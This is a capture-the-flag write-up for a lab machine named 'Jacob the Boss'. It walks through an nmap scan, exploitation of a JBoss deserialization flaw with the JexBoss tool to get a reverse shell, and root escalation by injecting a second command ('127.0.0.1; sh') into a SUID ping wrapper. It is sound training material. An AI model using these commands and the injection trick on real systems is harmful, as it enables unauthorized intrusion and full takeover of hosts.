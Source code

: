 ```yaml
---
title: "Jacob the Boss"
tags:
  - Medium
  - Linux
  - nmap
  - Insecure Deserialization
  - Java Serialization
  - Jboss
  - JexBoss
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|   Medium   |  |  10.10.129.18 |  |

---

### [ Set Up ]

The room tells us to add `jacobtheboss.box` to our /etc/hosts file:

![screenshot1](../assets/images/jacob_the_boss/screenshot1.png)

---

### [ user.txt ]

Let's begin with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.129.18
```

**Results:**

```
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
[REDACTED]
80/tcp    open  http         syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack ttl 61 2-4 (RPC #100000)
[REDACTED]
1090/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
1099/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
[REDACTED]
3306/tcp  open  mysql        syn-ack ttl 61 MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4444/tcp  open  java-rmi     syn-ack ttl 61 Java RMI
4445/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4446/tcp  open  java-object  syn-ack ttl 61 Java Object Serialization
4457/tcp  open  tandem-print syn-ack ttl 61 Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack ttl 61 Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack ttl 61
[REDACTED]
8009/tcp  open  ajp13        syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
36592/tcp open  java-rmi     syn-ack ttl 61 Java RMI
37259/tcp open  unknown      syn-ack ttl 61
38292/tcp open  landesk-cba? syn-ack ttl 61
```

It looks like there are a whole slew of ports open. What really interests me though, are ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP)** and **8083 (JBOSS)**

Let's first visit `http://jacobtheboss.box`:

![screenshot2](../assets/images/jacob_the_boss/screenshot2.png)

We have a blog page powered by [Dotclear](https://dotclear.org).

I decided to skip enumerating this website first as there was something else that caught my attention. I noticed that **JBoss** was running on the target machine (port 8083)!

---

*Boss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.*

---

From past experiences, I know that certain versions of JBoss are susceptible to **Java deserialization** vulnerabilities. These vulnerabilities allow unauthenticated attackers to achieve remote code execution *(Read more [here](https://www.synopsys.com/blogs/software-security/mitigate-java-deserialization-vulnerability-jboss/))*.

In order for us to exploit these vulnerabilities, we need to have the **Apache Tomcat/Coyote JSP engine** (port 8080) and **JBoss** (port 8083) services running.

Next, I did some research online and found a really nifty tool called [JexBoss](https://github.com/joaomatosf/jexboss). This tool automatically scans for and exploit vulnerabilities in the JBoss application server. Let's use it on our target machine:

```
python jexboss.py -u http://10.10.129.18:8080 
```

![screenshot3](../assets/images/jacob_the_boss/screenshot3.png)

We can see that JexBoss has managed to find 3 vulnerabilities with the JBoss server: **web-console**, **jmx-console**, **JMXInvokerServlet**

It asks if we would like to run an automated exploitation via the web-console.

Upon doing so, it will automatically try to set up a reverse shell for us:

![screenshot4](../assets/images/jacob_the_boss/screenshot4.png)

Fortunately, the exploit worked and our reverse shell was successfully opened:

![screenshot5](../assets/images/jacob_the_boss/screenshot5.png)

Now that we're in, we can obtain **user.txt** from jacob's home directory:

![screenshot6](../assets/images/jacob_the_boss/screenshot6.png)

---

### [ root.txt ]

Now let's figure out a way to escalate our privileges.

I first looked around the file system but was unable to find any interesting files. There was also only 1 non-root user on the machine (jacob), so we also can't move laterally to other accounts.

Next, I searched for files with their **SUID-bit** set:

```
find / -type f -perm /u=s 2>/dev/null
```

![screenshot7](../assets/images/jacob_the_boss/screenshot7.png)

I noticed an interesting binary called `pingsys`.

By the name, I assumed that it ran like `ping`. Let's test it out:

```
pingsys 127.0.0.1
```

![screenshot8](../assets/images/jacob_the_boss/screenshot8.png)

Yep, it functions exactly like `ping`!

I then used `strings` to analyze this binary in greater detail:

![screenshot9](../assets/images/jacob_the_boss/screenshot9.png)

We can see that `pingsys` actually appends the user input (IP address) to the `ping` command directly. 

This is a huge vulnerability as we can exploit this to run other commands on the shell by using `;` as a delimiter. Since `pingsys` is run as root, our commands run will also be privileged.

We'll run `pingsys` like such:

``` 
pingsys '127.0.0.1; sh'
```

Now during execution, `pingsys` will append our input to `ping`, resulting in the following command being run on the shell:

```
ping -c 4 127.0.0.1; sh
```

Because of the delimiter `;`, after `ping` has finished running, the second command `sh` will be run, which will open a shell as root:

![screenshot10](../assets/images/jacob_the_boss/screenshot10.png)

We've successfully escalated our privileges! 

We can now obtain **root.txt** from /root:

![screenshot11](../assets/images/jacob_the_boss/screenshot11.png)
